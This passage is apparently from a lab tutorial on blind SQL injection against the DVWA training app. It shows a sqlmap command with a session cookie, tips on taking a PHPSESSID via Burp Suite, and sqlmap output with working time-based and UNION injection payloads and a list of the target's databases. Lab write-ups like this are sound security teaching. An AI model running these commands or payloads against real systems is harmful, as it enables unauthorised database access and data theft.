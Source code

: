 For these kinds of bSQLi techniques, we'll turn to a tool called "`sqlmap`".

To do this we will execute the following command:

    sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" –dbs

As we are talking about a page that is behind an authentication mechanism, we need to pass a cookie that has the **PHPSESSID** of a session, otherwise we would be redirected to the login page. To get a valid **PHPSESSID** we can use Burp Suite, to intercept a valid Session ID. As alternative, we can also inspect the web page and discover the **PHPSESSID**.

After running the command, we can check the output of `sqlmap`. If all goes well, in the end we can confirm that the "`id`" parameter is injectable, and that we can identify the databases in the target system.

[*] starting @ 17:36:16 /2022-11-17/

    [17:36:16] [INFO] resuming back-end DBMS 'mysql' 
    [17:36:16] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: id (GET)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=1' AND (SELECT 5671 FROM (SELECT(SLEEP(5)))BOiy) AND 'xUEn'='xUEn&Submit=Submit

        Type: UNION query
        Title: Generic UNION query (NULL) - 2 columns
        Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x71626b7871,0x7976636d7453776c574977647564714f73414f6e4b526649457a696b7269526c6b447a6d4d694864,0x717a786b71)-- -&Submit=Submit
    ---
    [17:36:16] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
    web application technology: PHP 5.2.4, Apache 2.2.8
    back-end DBMS: MySQL >= 5.0.12
    [17:36:16] [INFO] fetching database names
    available databases [7]:
    [*] dvwa
    [*] information_schema
    [*] metasploit
    [*] mysql
    [*] owasp10
    [*] tikiwiki
    [*] tikiwiki195

    [17:36:16] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/192.168.8.142'

    [*] ending @ 17:36:16 /2022-11-17/

Once we have verified that the database is "injectable", from this point on `sqlmap` can be used to explore the information it can find. 

Let's start by listing the tables of a database: **dvwa**.
